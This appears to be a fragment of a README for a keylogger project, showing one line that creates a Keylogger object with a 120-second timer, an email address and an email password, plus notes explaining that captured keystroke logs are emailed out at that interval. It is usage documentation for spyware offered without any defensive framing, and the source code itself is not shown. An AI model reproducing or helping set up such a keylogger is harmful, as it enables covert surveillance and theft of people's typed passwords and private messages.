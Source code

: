 # Keylogger

> my_keylogger = Keylogger(120, "your-email", "your-password")

1. argument: timer (send the log to my email every 120 seconds)

second argument: your email (email where you want to receive the log)

third argument: email password

 
